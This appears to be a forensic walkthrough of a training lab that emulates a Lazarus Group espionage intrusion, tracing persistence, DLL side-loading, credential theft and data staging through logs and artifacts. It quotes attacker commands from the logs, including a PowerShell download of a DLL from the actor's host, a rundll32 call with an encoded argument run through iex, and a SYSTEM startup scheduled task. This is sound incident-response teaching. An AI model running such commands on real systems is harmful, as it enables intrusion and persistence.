



# Xintra's Airbuzzed Lab Walkthrough

Writing up a walkthrough to figuring out the incident at XINTRA's Airbuzzed Lab.   This lab is an emulation of the Operation Dream Job, a cyber espionage campaign that was conducted by Lazarus Group, a threat actor from the DPRK :north_korea:

## Section 1: Understanding the network
From a bird's eye view, it's a rather large network. So choosing to segment it further, and understand what happens in each area first. 

### 1a. Internet to ELK stacks
First section of the network to grasp first: Internet to ELK connections. 

From the internet, any external user from a trusted IP will be able to reach the public domain "elk.airbuzz.space" via the HTTP protocol (Port 443/TCP).  *Because, next to the Internet logo; there's a statement about "Only trusted IPs will be allowed for inbound traffic". 

Food for thought: the domain itself has 'elk' in its title. What that might mean is that the narrowed subsection of inbound traffic from trusted IPs:  
i. can reach the "elk.airbuzz.space" domain on HTTP  
ii. get access into ABZ-ELK-01 due to 1-to-1 mapping of its virtual Public IP to its private IP.  

Plus, if the ELK Stack server is configured appropriately, even logins from these trusted IPs will get captured into ABZ-ELK-01.

This relatively "direct" access into an ELK server is something to think about. For anyone to be able to access the logs that exist inside ABZ-ELK-01: then they would need to be security analysts reviewing logs, and originating from partner or outsourced security teams outside of the Airbuzzed organisation.

We'll discuss the other node of ABZ-ELK-01 on private IP 10.0.0.5 later. But noticing the protocols it allows (SSH and Fleet connection), and its lack of exposure to the internet, highly likely its purpose is to collect telemetry from the other internal servers/devices of the Airbuzzed Internal network. 

### 1b. Internet to DMZ to Production/Office subnets
And now, the second section of the network: Internet to the necessary production/office networks (via a DMZ).

This part of the network is something familiar (to the Waifu University lab, for example). 

Anyone, from Airbuzzed who has access to the domain, once authenticated in the DMZ part of the network, should be able to connect to the production network.

Let's take it step-by-step, assuming one's trying to connect to the production network or office network. 

#### 1bi. Internet to DMZ 
Airbuzzed employees' (if outside of their office) requests come through a Virtual Public IP associated with ABZ-PRX-01 (10.0.1.4) via the protocols shown (HTTPS, HTTP, SSH).  

These requests hit the NGINX proxy and are routed to the appropriate internal subnetwork (either prod or office), based on the request features (possibly domain name, path, headers).

#### 1bii. DMZ to any required Production or Office subnets
From ABZ-PRX-01, there are 3 ways traffic gets forwarded to the internal subnets:

1. DMZ to Production subnet  
Focusing on the cyan arrow: RDP/3389 protocol is utilised in 2 out of the 3 devices in the Prod subnet (the Domain Controller - ABZ-DC-01 and the File Server - ABZ-FS-01). A potential reason why this may be allowed for both cases would be:  
i. For the Domain Controller, admins might use RDP for domain/user group management.  
ii. For the File Server, someone with sufficient permission to manage file shares/backups 

2. DMZ to Office subnet  
Focusing on the cyan arrow: RDP/3389 is the protocol used in connecting to the Office network devices (ABZ-PC-01 and -02). Why this could be allowed is likely to allow remote support or administrative access to an end-user machine. 

3. DMZ to ABZ-APP-01 server (directly)  
Lastly, focusing on the internet traffic forwarded from the internet to ABZ-PRX-01 to ABZ-APP-01. Take note: the same protocols are in use all the way through to APP-01. 

Explaining this into two parts as there are two protocols to take note of:

i. The red SSH arrow - Initially, the traffic from the internet is allowed to ABZ-PRX-01 on port 22 and it is tunneled through to ABZ-APP-01 on the same port and protocol. 

ii. The green 'management.airbuzz.space' arrow - The traffic from the internet is allowed to ABZ-PRX-01 over standard HTTPS on port 443/tcp, and NGINX forwards the request towards ABZ-APP-01 on port 3031/tcp. 

There's an extra detail here: 'management.airbuzz.space' is a domain name. If only the request comes for `https://management.airbuzz.space`, then it can be passed to ABZ-APP-01. This isolates and routes traffic based on this domain name condition. 

#### 1biii. Connections between the Office and Production networks
Now, connections from the internet into the Airbuzzed network have been understood. Let's now see if internal subnets communicate with each other. 

1. Production --> Office  
General traffic is allowed from Production towards office. 

2. Office --> Production  
In this connection, there's restricted communication from Office PCs to Prod DCs. This allows the office PCs to connect with the Domain Controller on specific ports and protocols. It might also include resolving names via DNS, and accessing active directory services. Plus, in addition, from the Office subnet, there's a 22/tcp arrow pointing into ABZ-APP-01. This shows the PCs inside office subnet are allowed to initiate SSH connections into ABZ-APP-01. This probably suggests that office users can SSH into ABZ-APP-01 directly from their workstations. 

3. Production and Office subnets getting logged  
Both these subnets, alongside ABZ-PRX-01, are logged into ABZ-ELK-01 at 10.0.0.5/32, with the Fleet configuration on 8220/tcp; that's signature of Elastic's Fleet settings. 

#### 1c. Connections from Airbuzzed network to the Internet  
Now, lastly, after all the inbound connections reach their respective destinations inside Airbuzzed with all the configurations from above, let's see how they reach back the internet, to the original devices that would've made these requests into Airbuzzed. 

The Airbuzzed devices (either from Office or Production) will route their outbound reply traffic through the NAT gateway. It'll translate their private IP address to a public IP, and traffic reaches the internet with this NAT Gateway's public facing IP address. 

And that concludes the Network Breakdown and flow, to and fro from Airbuzzed.  
Onwards to solving the lab now.

### Section 2: Solving the Lab

#### Section 2a: Social Engineering
As per the scoping note, it's understood that a developer's workstation has some C2 samples loaded to their workstation. They appeared as a result of downloading some recruiter's technical task's archive folder. 

From our understanding of the network above, a developer's workstation would probably be in the Office subnet, and the device would either be ABZ-PC-01 or 02. We've also been given the developer's name in question (Rebecca Dean), and so before moving forward in the lab, let's first see; between the devices, which one she's a user of. Seeing the triages available, it's noted she's in ABZ-PC-01. 

So at this point, it can be assumed, that the C2 samples were possibly loaded here. But prior to that, there's a very good chance that rdean's activity could've been monitored in PC-01 a little bit longer (i.e. possibly see through any application activity under her username). 

As part of the triage, Airbuzzed's MS Team's conversation was also issued. 

Analysing that (in the XstReader tool), we can see some of rdean's activity with her colleague. 

For instance, what's of importance here are:  

1. Sharing of a public SSH key for a code server from which she can update a project, on 3rd June 2024, 9:14:46am (the full timestamp can be seen from the properties toggle on the bottom RH corner):  

2. A time when a code modification was sent to a colleague, 21st June 2024, 9:24:20am:  

3. An extra package that was added to a requirements.txt, 21st June 2024, 9:24:44am:  

Initially, it was not fully known that the archive folder from Linkedin contained malicious files. Due to its clever disguise, the next thing to do is to investigate it further with some portion of the triage. As it's known that rdean's workstation is ABZ-PC-01, the first thing to acquire from it is the $MFT file. The Master File Table keeps records of all files in a volume and is a system generated file that tracks information like a system files' physical locations on the disk, timestamps, names, sizes. 

To parse it, the MFTECmd tool by Eric Zimmerman was a handy one. In order to parse an $MFT file, the command followed something like:  

`MFTECmd.exe -f "path-to-$MFT-file" --csv "path-to-output-file-after-parsing" --csvf titleofMyOutputFile.csv`

After that, using the resultant CSV, and exploring it in the Timeline tool, the file's Host URL is visible in the Zone ID contents. This file was last accessed on 19th June 2024, 09:55:48am. 

Additionally, within the Quiz.rar, there's a file that can contain the hostname of the attacker's workstation. 

Amongst the files within the folder:  
 

It's the Shortcut, or the LNK file, that can be the most plausible. Based on this reading [here](https://belkasoft.com/forensic-analysis-of-lnk-files), the next thing to do was to parse this quiz1.lnk file. 

For that, the LECmd tool from Eric Zimmerman helped, with a similar command like so:  

When scrolled down, the attacker's hostname became visible:  

When analysed further, we can also see how long ago this Quiz file was created. The fact that it had an origin date of 2021, shows that this campaign of infiltrating companies' systems has a long history. 

In the case of Airbuzzed, it was last accessed on 15th June 2024, 19:14:42. 

_At this point, it will be useful to create a timeline of the social engineering steps. It might be muddled at this point, but for now, here's what we know:_

| Time Stamp    | Activity |
| ----------- | ----------- |
| 3rd June 2024, 09:14:46am     |  public SSH key sharing    |
| 15th June 2024, 19:14:42am   | creation of .lnk file  |
| 19th June 2024, 09:55:48am   | quiz.rar being downloaded from Linkedin |
| 21st June 2024, 09:24:20am   | code modification to colleague  |
| 21st June 2024, 09:24:44am   | adding of package to reqs.txt  |

So there's one sneaky feature here: Oddly, the .lnk file is created _before_ the quiz archive folder was downloaded from Linkedin in the first place. When checking back into the ABZ-PC-01's MFT file, there's a reasoning for that:  

So it shows here, that the created timestamp is later than the modified timestamp. Highly likely, this could be evidence of timestomping, as [explained here](https://youtu.be/_qElVZJqlGY?si=7GiScMChiG3KekR_&t=860). Hence, the revised flow of social engineering to follow will now be: 

| Time Stamp    | Activity |
| ----------- | ----------- |
| 3rd June 2024, 09:14:46am     | public SSH key sharing    |
| 19th June 2024, 09:55:48am   | quiz.rar being downloaded from Linkedin  |
| 19th June 2024, 09:55:48am   | creation of .lnk file |
| 19th June 2024, 09:56:18am |  .lnk file being last accessed |
| 21st June 2024, 09:24:20am   | code modification to colleague  |
| 21st June 2024, 09:24:44am   | adding of package to requirements.txt  |

And that concludes the first portion of the Airbuzzed Lab: Social Engineering.

#### Section 2b: Patient Zero
So far, it's been understood ABZ-PC-01 is the first device in the Airbuzzed network that came in contact with the malicious folder, Quiz.rar. From this point on, it would make sense that the threat actor would want to persist in the system, and possibly iterate through to see how Airbuzzed is configured. And likely so, the lab guides us to find a persistence TTP that was likely used: Scheduled task to execute at system start-up. 

This event would've had to happen after the Quiz.rar file was downloaded from Linkedin at June 19th 2024, 09:55:48am. Assuming that the threat actor would prefer to get a foothold into the system in the first 24 hours, the ELK logs to explore first were cut off on June 20th 2024 at midnight.

Verifying that ABZ-PC-01 is a Windows machine, there's a high likelihood that a registry key's value would get set to that particular persistence task made by the threat actor. The potential two keys that might be feasible to explore are:

    `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache` 
    `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\Tasks` 

Furthermore, one extra value I opted to add in to narrow our search was in the 'rule.name' field. Keeping it as a rule.name = Scheduled Task to ensure anything related to scheduled task is utilised here in narrowing down the logs. By doing this, it narrowed out logs that were related to the registry path of `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache` automatically, and these were the logs look into for finding our scheduled malicious task.

At this point, the logs looked roughly like this:

Having this in sight, the next is to analyse the registry keys that are visible in these narrowed logs. 

One quick distinction to make between these keys is the following:

The ones that begin with `SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree/Microsoft\Windows\*` is that these will refer to built-in tasks that are part of the Windows System components/services or possible maintenance operations. 

While the one at the bottom that is `SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree/*` refers to tasks that are made by third-parties and not associated with MS Windows. And this is where a non-Windows task resides, with the name HPSync02. 

With that understood, the time at which this malicious task was created at 2024-06-19 20:31:49. 

Now that the name of the scheduled malicious task is found to be HPSync02, information regarding how it was created or spawned are the next features to find. 

Altering the view of the logs to purely about the task HPSync02, extra information of the task can be discovered: 

The most interesting information amongst the logs is this process.command_line argument: 

`"C:\Windows\system32\schtasks.exe" /create /tn HPSync02 /tr c:\\Windows\\Temp\\servicehost.exe /sc onstart /ru System`

Using Windows' schtasks, a scheduled task of these features were created:

| Switch                                   | Purpose                                                              |
| ---------------------------------------- | -------------------------------------------------------------------- |
| `/create`                                | Creates a new scheduled task.                                        |
| `/tn HPSync02`                           | Sets the task name as `HPSync02`.                                    |
| `/tr c:\\Windows\\Temp\\servicehost.exe` | Sets the task to run `servicehost.exe` from the Temp directory.      |
| `/sc onstart`                            | Schedules the task to run **when the system starts**.                |
| `/ru System`                             | Runs the task under the **SYSTEM account**, with highest privileges. |

And alongside that, the process that spawned this was `C:\Windows\System32\werfault.exe` - by Windows Error Reporting (WER) system.

For a quick understanding on why this is unusual behavior, these are the key factors to consider:

1. `werfault.exe` is a program that gets triggered strictly when either an application crashes or if it fails. As a process, it normally doesn't spawn anything else. 

2. `servicehost.exe` is launched from a Temp folder ~ that's not a legit location for executables. 

In addition to this mode of persistence, it's also seen in another component of the Airbuzzed network, as usage of a Remote Monitoring and Management tool. For this, looking up the Master File Table of FS-01 made more sense. 

After parsing the MFT file of ABZ-FS-01 like so, using the MFTECmd Zimmermann tool:

The next thing to do was to narrow the view to the timestamp hinted in the lab (2024-06-25, 09:06:12). 

Therefore, it's been discovered that the name of the RMM tool is called TacticalRMM. Using this timestamp and tool name, the narrowed logs would look like the following: 

While they were all associated with the same Tactical RMM tool discovered previously, there are registry keys all associated about the same tool. 

The goal is to find the exact service name of this RMM tool, and after glancing at a quick summary of each key from ChatGPT, the key that would provide that exact service name is in the DisplayName key ~ it refers to the user-friendly name of the service shown in UI tools. 

And that concludes the second part of the lab: Patient Zero. 

#### Section 2c: DLL Side Loading
So far, here's what's understood about the attack: 

1. The entry point of the malicious Quiz.rar was through ABZ-PC-01. 
2. Once in that device, a scheduled task (HPSync02) was created to happen at System Startup
3. It was also found out that another device, ABZ-FS-01, had some kind of Remote Monitoring and Management tool deployed in it, and this was almost 6 days after June 19th, on June 25th. 

Definitely, the time in between would've been spent on discovering more details about the Airbuzzed system. Trying to decipher what happened in the days in between would be suitable to see through the TTPs deployed in the middle. 

The lab later hints that some form of malicious DLL called `354465_SB_SMBUS_SDK.dll` was downloaded from a threat actor's C2 server into PC-01. As this was named, the straightforward way to analyse this DLL was to look it up in the ELK logs of ABZ-PC-01. 

Immediately, we're able to see that `354465_SB_SMBUS_SDK.dll` was downloaded into the ABZ-PC-01 from a threat actor's C2 server. Inside the message, the `iwr` command means to Invoke Web-Request. The full command is: 

`iwr -Uri https://update.downloadmirror.net/programs/354465_SB_SMBUS_SDK.dll -OutFile C:\\Windows\\Temp\\354465_SB_SMBUS_SDK.dll` whereby the downloadmirror.net domain is the domain where the threat actor has their tools, and after the download, it's stored in the Temp folder in Windows - to possibly be used again later. 

And right after that log, in the next one below, the command in question is: 
`cmd /c 'rundll32 C:\Windows\Temp\354465_SB_SMBUS_SDK.dll,main [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String("YwBwACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAHcAYgBlAG0AXABXAE0ASQBDAC4AZQB4AGUAIABDADoAXABXAGkAbgBkAG8AdwBzAFwAVABlAG0AcABcAFIAdABrAEIAdABNAGEAbgBTAGUAcgB2AC4AZQB4AGUA")) ^| iex'` whereby in a new cmd.exe instance, the following string runs and the new cmd window closes right after. 

Essentially, rundll32 is used to load and execute the `main` function inside the DLL downloaded and staged in the Temp folder; with an argument that's encoded in Base64. The argument gets decoded before execution, and iex executes this decoded argument without writing it to disk. 

So, this log at 2024-06-25 08:26:39am tells us the first process that was created by this malicious DLL, and we've learnt the Base64 string in the argument is shown above. Deciphering that using Cyberchef like so: 

The result shows that `cp C:\Windows\System32\wbem\WMIC.exe C:\Windows\Temp\RtkBtManServ.exe` was the original argument without any type of encoding involved. 

This is a copying command: the legitimate WMIC.exe binary from the Windows System32 directory to a different filename (RtkBtManServ.exe) in the Temp directory. Essentially, the WMIC.exe is sitting inside the Temp directory with a pseudonym of Realtek Bluetooth drivers. 

Thus far, it's understood that the threat actor was using the Temp directory as his 'staging area', and has so far put together these tools -   i. RtkBtManServ.exe, which is a disguised WMIC.exe  
ii. Downloaded in 354465_SB_SMBUS_SDK.dll to make the above (i) possible  

Alongside these, another tool has been downloaded and stored in the same Temp directory, as made known in the lab. The wbemcom.dll is another tool that's residing in the same folder as Temp. 

First, looking up wbemcom.dll in the logs, let's first see when it entered the system. 

It first came into the system via an Invoke Web Request command back on June 19th, at around 20:29:31 hours. This was just before the time the scheduled task was created (back in the Patient Zero section). 

Alongside it are two extra tools: servicehost.exe and wbemc.dll ~ all from the same domain of the threat actor's C2 server. 

When looking through the timeline of logs associated with wbemcomn.dll, majority of it lies in June 25th: It's likely here it might've been loaded into some program. 

After narrowing the logs to June 25th, and ensuring the TTP rule of DLL Side-Loading is enabled, something interesting gets known:

This same servicehost.exe from the Temp folder, which was known to be downloaded by the threat actor, gets injected with wbemcomn.dll. As this was from the threat actor's C2 server, it might've been prepared from some other binary. 

Luckily, ELK has a fitting field to find that original name: called "file.pe.original_file_name". 

Now, when switching the logs to revolve around servicehost.exe: we see the plausible file that got masqueraded to give us this servicehost.exe. 

 

This was a bit of a brute force technique, and so far, it's been hard to see if this renaming process happened inside the system, or it was already done and created in the C2 server of the threat actor. 

That concludes the third part of the lab: DLL Side-Loading. 

#### Section 2d: Credential Dumping

So far, here's what's understood about the attack: 

1. The entry point of the malicious Quiz.rar was through ABZ-PC-01, when the computer user rdean was logged in. 

2. Once in that device, a scheduled task was created to happen at System Startup inside PC-01

3. Inside PC-01, many tools were downloaded from the threat actor's domain, downloadmirror.net and stored inside the Temp folder as staging.  

    * In June 19th, a few things were downloaded and stored in Temp: wbemcom.dll, servicehost.exe and wbemc.dll   
    * One of the tools was a late download in June 25, 2024: a 354...dll file used to create a copy of a legitimate Windows Library named as something else  

4. It was also found out that another server, ABZ-FS-01, had some kind of Remote Monitoring and Management tool deployed in it, and this was almost 6 days after June 19th, on June 25th (09:06:12am). 

A fair bit of activity has happened, but it's seen more towards the beginning, and end of the triage. Essentially, for a File Server to get new tools added in, credentials of Airbuzzed employees must've been hijacked. To look this up, other types of artifacts would need to be explored. 

One such method is a password-spraying attack. Assuming this was still executed as 'rdean', a suitable artifact to explore will be her folder in ABZ-PC-01. 

In this folder, Powershell Transcripts can be found. An explainer of that is written [here](https://www.magnetforensics.com/blog/the-importance-of-powershell-logs-in-digital-forensics/). Using this clue, and vetting through the scripts found, a feasible one is from the 20240622 folder. 

When analysing the script through, we see functions about passwords being invoked. There is a Invoke-DomainPasswordSpray function that's part of the script and it gets called with a singular password, "Airbuzz@2024" that was bruteforced for every user possible in the domain. 

Alongside brute-forcing a password, other forms of credential action had also taken place. Another powershell script had also managed to capture Rebecca's credentials from the web browser. One of the scripts from 20240621 has revealed some of her credentials from certain websites. 

In the script from above, we can see the developer's credentials from two distinct websites. There's a difference with the Password Field being a session_password versus a password alone. Highly likely: the password referred here is a Chrome Session where Rebecca is logged into her Google Account, and used Linkedin's "Sign in with Google" button to enter the website. Google would've authenticated Rebecca with a token, and LinkedIn confirmed her identity using that token and logged her in. 

If it were a purely a "password" field type instead, and she had logged into LinkedIn with that - then her explicit password for LinkedIn would've been captured - like so in Canva. Thus, the script has ended up capturing her Google account's password. 

Another technique the threat actor employed was keylogger to capture credentials, and its filename has been hinted to be `proactive.exe`. Logs about in on ELK showed that it had also been part of the Temp folder in staging after its download from the threat actor's domain, and the timestamp it became a file created on the disk of the device. 

In addition to stealing credentials, other techniques were used with the purpose of stealing some intellectual property. It appeared that a screenshot function was also designed to take pictures of applications or code that Rebecca had been designing for Airbuzzed. When looking across all the Powershell Transcript from her `Documents` folder from above, only one of the script hints at a plausible file that was used in this process. 

In the 20240620 folder, the Powershell script ending with 'FneAW....537' showed some hints that this mentions a screenshooting function. The presence of   `$graphics`, `CopyFromScreen` are parts of a powershell command that might be designed to screenshoot. And further above in the script, there is mention of a Host Application from which this particular powershell was hidden, and it used a .ps1 file from the Temp staging folder we've been observing so far. 

The next best thing to do is to inspect the code that sits inside .ps1 next. 

Because this script has a timestamp we can zoom into, we can narrow down to that in the ELK log to see the script's full details at that point. Another ELK column that is handy to add in here is `powershell.file.script_block_text`. 

When looking at the entire script, there are some takeaways: 

1. The first section of interest in orange shows the naming convention given to every screenshot that is meant to be taken, beginning with 'DM' and then
some set of 5 to 12 characters with a .dat extension. 
2. The file path in which all these screenshots will get stored at - in the Themes folder of Windows in the User account. 
3. The time difference between each screenshot will be 30 seconds.

Amongst these files in the Themes folder, there's one in question that mentions a successful capture of Airbuzzed's code. So it's safe to say there was intention to get hold of this piece of code that's probably Intellectual Property. 

And finally, one extra credentials file was of interest to the threat actors, and it had been in another part of the Airbuzzed network - within ABZ-APP-01 server. Being a Debian server, it's a Linux oriented system. Based on the artifacts found in a Linux system, the best thing to check was the bodyfile in its triage. More information about it can be found [here](https://trustedsec.com/blog/incident-response-bring-out-the-body-file). 

Like so, we can see the metadata related to the credential file the threat actors would've used. Also accounting that this is referring to files stored in a Debian 11 OS, the last four fields are timestamps in epoch format. If these were accessed by threat actors, some permissions must've changed in order for them to utilise it fully. That is in the first time field from the left ~ `1719267281` which translates to June 24, 2024 10:14:41 PM in GMT. 

That concludes the fourth part of the lab: Credential Dumping. 

#### Section 2e: Browser History Insights
The next portion of the lab focuses on the user's search history in their device. For this, the best thing to check was browser artifacts in the `C:\Labs\Evidence\Airbuzzed\TriageImages\ABZ-PC-01.zip\C\Users\rdean\AppData\Local\Google\Chrome\User Data\Default` folder. Amongst that, opted for the history file.

Using the DB Browser for SQLite, it was possible to see all the things searched for under the user's name. Furthermore, Chrome's timestamp is formatted as the number of microseconds since January 1, 1601. 

An SQL query to convert it to a readable format would be:

`SELECT  url, datetime(last_visit_time / 1000000 + (strftime('%s', '1601-01-01')), 'unixepoch', 'localtime') FROM  urls;`

There is a search log of interest by the user, and looking at that same log from the original table: it mentions python code web being searched on 2024-06-19 09:14:08am. 

It's something to keep in the back of the mind because this is an activity that happened not long before the download of Quiz.rar from Linkedin, just by half hour. Recent activity, web or locally on the device, would be of interest to a threat. 

And that concludes the fifth part of the lab: Browser History Insights. 

#### Section 2f: Evasion Techniques 
As of now, we've understood how the threat entered, how they maintained a persistence by creating a scheduled task, all the kinds of tools and arsenal they downloaded with that Invoke-WebRequest command in powershell and kept in that 'Temp' folder , how they stored and kept screenshots of Intellectual Property that was of interest, and credentials they managed to capture. 

To have accomplished this undetected: some evasion techniques would've had to have happened, and that's what the next section will focus on. Seeing that the OS of ABZ-PC-01 is a Windows OS, there's a chance some of its in-built defender software parameters might be altered. 

When looking back at the powershell documents to discover Rebecca's Linkedin and Canva password, another one that was of interest is this one from 19th June 2024. 

Here, we see our staging 'Temp' folder where all downloads from the Threat's domain has been sitting at, and has been flagged as an ExclusionPath. Looking into another powershell transcript of the same day, we can see where else this appears. 

The command in the first snapshot speaks of retrieving out Windows Defender preferences that are set up in ABZ-PC-01. Amongst them is the setting for ExclusionPath. These settings are checked at 20:43:20, June 19th 2024, and the exclusion path was set at 20:46:38 of the same day (you might need to consider rounding up the seconds value for the flag XINTRA asks for). 

The same can be witnessed in the ELK stack as well. 

Now, the activity witnessed so far has been within ABZ-PC-01, the first computer in Airbuzzed that got infected. From the earlier section, in Credential Dumping, we've also witnessed a file `cred.yml` being accessed on June 24, 2024 at 22:14:41 in ABZ-APP-01. It is once again of interest in here, as there's a good chance that these might be further used, or deleted from the system. 

Looking into the bash history file of ABZ-APP-01, specifically as an `app` user, we're able to see some modifications and movement of folders and files being done. 

As this is our file of interest, let's analyse further to understand what's happened to cred.yml. When looking before what happens to creds.yml, this is witnessed. 

At a glance,  

1. An isolated Python + Ansible environment is set up
2. Configuration files, creds.yml and access.yml are set up with ansible-vault. 
3. cat command to print and review documents set up. 
4. Accesses the directory to review the files, and subsequently deletes creds.yml
5. Creates and possibly edits a new cred.yml and access.yml, and re-encrypts this latest creds.yml. 

So, what this bash history shows is that this creds.yml file has been of interest, and this shows some form of modifications that have taken place in it. 

The next thing to investigate was that a renamed binary was utilized to execute a Powershell Script remotely, aimed at disabling Windows Defender.
If this had been a remote command, some field in ELK would've captured that hint.  

Plus, earlier in the lab, in Section 2c of DLL Side Loading, we witnessed how a legitimate Windows binary was copied and renamed into something else. Specifically, `RtkBtManServ.exe`. Apart from witnessing that event, which was not seen again, the timestamp of that log is 25 June 2024, 08:26:39. 

We know that this binary is sitting inside the Temp folder inside PC-01, and has been kept like so.

Thus, with these hints, and some brute-forcing, we can see that it was indeed utilised to invoke a powershell command that mentions all the defender preferences, and setting them to inactive. Seeing the difference in the node value of the command, it's been repeated for the IP addresses of ABZ-PC-02, ABZ-DC-01 and ABZ-FS-01. All from ABZ-PC-01, that binary remotely deactivates each Windows component's Defender in the Airbuzzed System. 

Finally, the last thing to check for was in ABZ-PC-02. This is a device that has not yet seen any suspicious activity, but has started to get roped in. For now, the ask is to see what files were deleted at a particular point in time, and its size. 

Looking into the PC-02 triage, we can see this is a workstation with one decipherable employee, Robert Carr. It is noted that he deleted a file in the early hours of 19th June 2024. 

Given a size of under 6.2kB, and the Filetype is $I - it is not the complete file itself. $I files are index metadata files associated with deleted files moved to the Recycle Bin. Each time a file is deleted, a $I and a $R would form. $R will hold the actual content that was inside this deleted file. All that can be deciphered now is its original size being under 6.2kB. 

And that concludes this segment of the Airbuzzed Lab, Evasion Techniques. 

#### Section 2g: Data Exfiltration
So far, we've vetted through both the workstation PCs (01 mostly, 02), and seen through one server (FS-01) for all tools and activity that had indications of threat behaviour. Considering a company like Airbuzzed, and seeing that there was an interest in Intellectual Property, chances are some preparation for that file would've been done to exfiltrate it out of the Airbuzzed network. 

But before proceeding further, there are other components inside the network that are not explored yet, and one of them is the Domain Controller, ABZ-DC-01. There is also activity from another user that's meant to be explored, and so the lab guides us into seeing the last named user's activity in ABZ-DC-01. 

The lab guides us into knowing that a user, `kmason` in ABZ-DC-01 is involved in some activity in that particular portion of the network. It appears under his alias, a command was executed and its output file was saved into the HKLM\SAM registry key.

Following that, under the same few logs, more interesting activity can be witnessed. 

There's a log a minute later that is of the value `& 'C:\Program Files\WinRAR\Rar.exe' a -r -m0 -hp"K3EJtHg88eDioaNG6GSQYm9eRHjchg" C:\Windows\Temp\signals C:\Windows\Temp\*.json`. When divided into its parts, it means:

| Part                                | Description                                                                                        |
| ----------------------------------- | -------------------------------------------------------------------------------------------------- |
| `&`                                 | PowerShell operator to run a command.                                                              |
| `'C:\Program Files\WinRAR\Rar.exe'` | Path to the RAR executable.                                                                        |
| `a`                                 | Add files to an archive.                                                                           |
| `-r`                                | Recurse subdirectories (include files in subfolders).                                              |
| `-m0`                               | Set compression method to **store only** (no compression).                                         |
| `-hp[K3EJt...]`                     | **Password-protect** the archive with **encryption of file headers** (more secure than just `-p`). |
| `C:\Windows\Temp\signals`           | Output archive file name (RAR will add `.rar` if no extension is given).                           |
| `C:\Windows\Temp\*.json`            | Files to include in the archive — all `.json` files in `C:\Windows\Temp`.                          |

Essentially, in the Temp folder, recurse through sub-directories and if any of them contained a .json file had to be collected together, kept inside a password-protected archive file called 'signals.rar'. Additionally, no compression is meant to happen for this compilation, denoted by the `-m0` flag. 

Since no compression had happened, taking a look at its file size will be handy. After parsing its $MFT file like so: 

and opening it in the explorer, this is its size: 18694942 bytes. 

That signals.rar file is nearly 18.7MB. It is a relatively large file size, which means dozens to hundreds of JSON files might be its content: it might include configurations, records, or given that it's from ABZ-DC-01 that is connected to ABZ-PC-01 on various ports and protocols, it highly likely might be all that telemetry. 

That concludes this segment of the lab: Data Exfiltration.

#### Section 2h: Payload Execution
The other workstation of the office network, ABZ-PC-02 is under the spotlight again in this section. It is discovered, that in its Amcache, it too has a temp folder. And the file in question to see is `servicehost.exe` ~ which if we recall from earlier: had been in ABZ-PC-01's own temp folder, downloaded with an Invoke-WebRequest command, and used to make that persistent task 'HPSync02'. 

It too has been found in PC-02, and worth seeing what activity might have happened here with regard to it. When looking across at its Amcache files, we can see some properties about it like so:

After that, the lab hints that another C2 sample was found in another device of the network: inside ABZ-APP-01. It is plausible because we did see earlier that inside this device, a creds.yml file was removed, redesigned and modified to ensure this C2 sample to be sitting inside it peacefully without any alarms going off. Therefore, the next thing to see is if it spun any process up, and for that, the lab gives a hint it would've happened at about June 21 2024, 11:34am. 

Looking through the feasible process files, and that timestamp, we can narrow its process ID to 55773. 

And its specific SHA1 Hash:

Furthermore, there's also evidence that executable running in tmp/lock ~ a temp folder with a process running in it. The owner of the process is a good field to investigate because it might have been one with a lot of permissions. 

Seeing that the owner is `app`, it means that it's from a service account, and not with any extra system-level permissions. Keeping this observation as a good-to-know. 

And that concludes this segment of the lab: Payload Execution.

#### Section 2i: Dissecting Network Logs
